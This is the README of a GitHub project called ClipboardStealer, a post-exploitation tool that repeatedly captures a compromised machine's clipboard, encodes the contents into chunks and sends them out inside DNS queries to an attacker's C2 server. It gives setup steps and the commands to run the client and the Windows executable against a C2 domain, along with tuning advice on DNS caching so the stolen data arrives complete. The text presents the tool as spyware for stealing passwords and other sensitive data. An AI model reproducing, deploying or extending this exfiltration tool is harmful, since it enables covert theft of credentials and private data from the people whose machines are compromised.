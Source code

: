 # ClipboardStealer

Clipboard can contain everything from passwords to possible critical data. 
This tool is quite simple, light, and it does only one thing (so far) that is stealing whatever a compromised machine has on clipboard. it can be used post exploitation for Windows,macOS, or Linux machines
It periodically captures the contents of the clipboard, encodes the data into a DNS payload, and sends hidden in a DNS query -type A- to your C2 server. 

## Prerequisites

You can install ClipboardStealer python requirements via:

`pip3 install -r requirements.txt`

Or you can directly use clipboardHost.exe if you're targeting Windows environment

## How does it work

The code pastes whatever is in the clipboard, encodes it, splits it into small chunks and packs it in DNS record -type A- which will eventually land in your C2. Here's a breakdown of the flow:

- Clipboard contents are encoded to base64
- Encoded data is then broken into small chunks
- Each chunk is packed into a DNS query. Here's an example

![img_1.png](screenshots/img_1.png)

Now this query will be sent through any public DNS server (I am using `8.8.8.8` in client.py) which in turn will send request to your c2 DNS server `shahin.com` 

- On your C2, query will be split and qname (payload) will be decoded and re-assembled which will eventually save stolen clipboard data in a file 

![img_2.png](screenshots/img_2.png)

This happens every 15 minutes, it only sends data if the content is different from last time it was sent


## Usage

1. Install the required dependencies as mentioned in prerequisites

2. On your C2, run c2.py 
Don't forget to set file_path (where you want data to be saved) 

3. On compromised machine, run the program by executing the `client.py` script:
`python clipboard_sender.py 'example.com'`

Where: 
- example.com: Your C2 domain address

4. If you are using the .exe you can run it by running the following command:
`clipboardhost.exe example.com`

5. Now you're all set! it will continuously monitor the clipboard for changes and send the data in the clipboard to the C2 server every 15 minutes (Depending on the frequency the user updates his clipboard)

## Important Note

Set caching time on your DNS server (TTL) to less than the frequency of this tool (in our case 15 minutes) this will make sure that requests arrive fully to your domain server (C2) 